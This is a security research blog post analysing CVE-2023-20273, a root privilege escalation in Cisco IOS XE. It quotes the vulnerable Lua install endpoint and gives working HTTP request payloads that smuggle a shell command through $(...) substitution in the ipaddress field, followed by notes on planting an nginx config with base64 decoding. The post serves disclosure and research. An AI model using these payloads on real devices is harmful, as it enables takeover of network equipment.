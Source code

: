 +++
title = "CVE-2023-20273: IOS XE root priv escalation"
url = "2023/10/cisco-root-privesc"
description = "CVE-2023-20273: IOS XE root privilege escalation"
tags = [
    "vulnerability",
    "research",
    "LeakIX",
    "cisco",
]
date = "2023-10-31 23:20:00"
categories = [
    "vulnerability",
    "research",
    "LeakIX",
    "cisco"
]
menu = "main"
images = ["/iosxe/cables.png"]

+++

![Picture](/iosxe/cables3.png)

On the 28th of October the exploit for `CVE-2023-20198` was released by [SECUINFRA](https://twitter.com/SI_FalconTeam/status/1718346358950711807) after being captured on one of their honeypots.

While it enables full admin control of IOS, the question still remained about the implantation of the backdoor.


<!--more-->

**Update 2023/11/01:** [Joel Land](https://twitter.com/joel_land/status/1719708750741639539) shared with us on Twitter that a different payload
is necessary on his Catalyst 8000v running version 17.4.1a. We've added a payload for v17.

## Taking step back

Contrary to IOS, IOS XE is based on a Linux Kernel.
In the following picture `CVE-2023-20198` gets you the `IOSd` layer.

![Picture](/iosxe/iosxe.png)

We're however looking for the NGINX config which is at the `Host OS` layer.

### Looking for leads

Our first lead comes from the [Talos Intelligence blog post](https://blog.talosintelligence.com/active-exploitation-of-cisco-ios-xe-software/) mentioning the following log entry:

```
%WEBUI-6-INSTALL_OPERATION_INFO: User: username, Install Operation: ADD filename 
```

Our second lead comes from the diff made by [Horizon3](https://www.horizon3.ai/cisco-ios-xe-cve-2023-20198-theory-crafting/):
![Picture](/iosxe/diff.webp)
Image credit: Horizon3

### Bunch of Lua

After investigation for Lua endpoints in the Webui we found a candidate matching both leads:

In `/var/scripts/softwareMgmt.lua` we find the `installAdd` route:

```lua
if method == "POST" then
    local inp = {}
    local req_body = ngx.var.request_body
    if not utils.isNilOrEmptyString(req_body) then
        inp = cjson.decode(req_body)
    end
    local installParams = {}
    if not getInstallInProgress() then
        if lastTag == "installAdd" then
            validateSmuRequest(inp)
            local url, destinationFile = generateUrlAndDestination(inp)
            writeInstallOperationType(inp.operation_type)
            installParams.operation = "install_add"
            installParams.filename = destinationFile
            writeSmuInstallParams(installParams)
            local installMethod = inp.installMethod
            -- Install involved file download, which might take long, so it will run in the background.
            local command = 'CMD_SETSID ' .. smu_install_script .. ' --operation install_add --operation_type ' .. inp.operation_type .. ' --install_method ' .. installMethod .. ' --remote_path "' .. url .. '" --file_path "' .. destinationFile .. '" &'
            utils.runOSCommand(command)
            ngx.exit(ngx.HTTP_OK)
        endif
    endif
endif
```

As highlighted by Horizon3, the ipv6 validation method has been updated. It turns out we can pass an `ipaddress` as parameter to this endpoint which will end-up in the `url` variable.

Due to a bug in the validating conditions, the only requirement for our IPv6 is to contain 3 fields delimited by `:`. 

Some other validation steps in `validateSmuRequest` and `formValidate` forbids us from using characters like `"`, `'`, ect ... in our payload. 

### Command substitution to the rescue

Using command substitution allows us to bypass any form of validation.

Our final payload after creating a user and authing with `CVE-2023-20198` looks like:

```http request
POST /webui/rest/softwareMgmt/installAdd HTTP/1.1
Host: 10.0.0.1
Content-Length: 42
Cookie: Auth=<cookie from valid auth>
X-Csrf-Token: <token from /webui/rest/getDeviceCapability>

{"installMethod":"tftp","ipaddress":"1000:1000:1000: $(echo hello world > /var/www/hello.html)","operation_type":"SMU","filePath":"test","fileSystem":"flash:"}
```

or for v17

```http request
POST /webui/rest/softwareMgmt/installAdd HTTP/1.1
Host: 10.0.0.1
Content-Length: 42
Cookie: Auth=<cookie from valid auth>
X-Csrf-Token: <token from /webui/rest/getDeviceCapability>

{"mode":"tftp","ipaddress":"1000:1000:1000: $(echo hello world > /var/www/hello.html)","operation_type":"SMU","filePath":"test","fileSystem":"flash:"}
```

### Nginx config

Knowing all of this, one can therefore drop a file in `/usr/binos/conf/nginx-conf/cisco_service.conf` and restart the
webserver to apply the configuration.

`openssl base64 -d` can be used to bypass any limitation on character limitation.
